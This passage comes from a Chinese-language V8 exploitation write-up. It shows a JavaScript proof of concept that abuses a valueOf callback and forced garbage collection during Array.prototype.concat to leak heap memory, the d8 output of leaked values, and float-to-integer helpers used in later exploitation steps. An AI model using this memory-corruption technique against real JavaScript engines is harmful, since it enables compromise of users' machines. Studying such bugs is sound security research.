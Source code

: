 ```js
    delete corruptA[0];         // 创造空洞，这里进入 JSReceiver::GetElement 的慢过程，
                                // 才能触发 valueOf() 中的代码执行
    Array.prototype[0] = {
        valueOf: function() {
            corruptA.length = 1;// length 设置为 1，
            gc();               // 触发 gc
            print("[CALLBACK]");
            delete Array.prototype[0]; // 防止影响后续利用
            return 1.7;
        }
    };

    // 触发漏洞
    var res = corruptA.concat();

    // 调试 && 漏洞验证
    for (var i = 0; i < 0x10; i++) {
        print(i + "\t" + res[i]);
    }
}

leak_0();
```

可以看到输出了一些可疑的数据：

```sh
❯ ./executable_d8/d8 --max-heap-size 1024 --expose-gc --allow-natives-syntax ./poc.js
[CALLBACK]                          # 证明 callback 被触发并且只被触发了一次，符和预期
0       1.7                         # 这里是 valueOf 的返回值 1.7 而不是原本的 4.3
1       3.3954324972934e-310        # 这些是什么？
2       2.69333861189973e-310
3       2.69333861189973e-310
4       2.2468527337194e-311
5       2.69333861295466e-310
6       8.4880155434e-314
7       2.693338611895e-310
8       2.6933386127274e-310
9       4.15911175029e-312
10      3.39543249543303e-310
11      3.39543249543293e-310
12      2.69333861189973e-310
13      2.69333861189973e-310
14      2.24685272251e-311
15      2.2468527326206e-311
```

事实上 V8 内存中浮点数类型是直接存储并且可以直接转换的（其他类型往往是作为 JSObject 被存储），这也是为什么这里选择了浮点数类型的元素填充数组，以下是转换函数：

```js
var buf =new ArrayBuffer(16);
var float64 = new Float64Array(buf);
var bigUint64 = new BigUint64Array(buf);
function f2i(f) {
    float64[0] = f;
    return bigUint64[0];
}
function i2f(i) {
    bigUint64[0] = i;
    return float64[0];
}
function hex(i) {
    return "0x" + i.toString(16).padStart(16, "0");
}

```